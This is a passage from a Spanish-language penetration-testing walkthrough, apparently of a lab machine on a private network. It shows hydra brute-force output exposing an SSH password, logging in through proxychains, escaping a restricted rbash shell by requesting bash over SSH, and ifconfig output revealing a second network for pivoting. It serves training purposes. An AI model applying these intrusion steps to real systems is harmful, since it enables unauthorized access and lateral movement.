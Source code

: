 Resultado:

```bash
[22][ssh] host: 192.168.100.132   login: guest   password: k1ll0r7n
```

Explicación: aplicando fuerza bruta con **hydra** obtuvimos la contraseña `k1ll0r7n`

Acción:

```bash
proxychains ssh guest@192.168.100.132
```

Resultado:

```bash
guest@192.168.100.132's password: <k1ll0r7n>
Last login: Mon Aug  6 16:25:44 2018 from 192.168.56.102
guest@porteus:~$ whoami
-rbash: whoami: command not found
```

Explicación: `rbash` para evitar esto, nos conectamos mediante ssh solicitando una bash `proxychains ssh guest@192.168.100.132 bash` y luego [aplicar tratamiento de TTY](../Tratamiento%20de%20la%20TTY/TTY%20Interactiva.md)

Acción:

```bash
ifconfig
```

Resultado:

```bash
eth125: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.18.0.130  netmask 255.255.255.0  broadcast 172.18.0.255
        inet6 fe80::20c:29ff:fe51:ed07  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:51:ed:07  txqueuelen 1000  (Ethernet)
        RX packets 9  bytes 1952 (1.9 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 16  bytes 2522 (2.4 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth126: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.100.132  netmask 255.255.255.0  broadcast 192.168.100.255
        inet6 fe80::20c:29ff:fe51:edfd  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:51:ed:fd  txqueuelen 1000  (Ethernet)
        RX packets 4755  bytes 358364 (349.9 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 9994  bytes 4238023 (4.0 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Explicación: vemos que esta máquina conecta con otra interfaz de red `172.18.0.130`


---
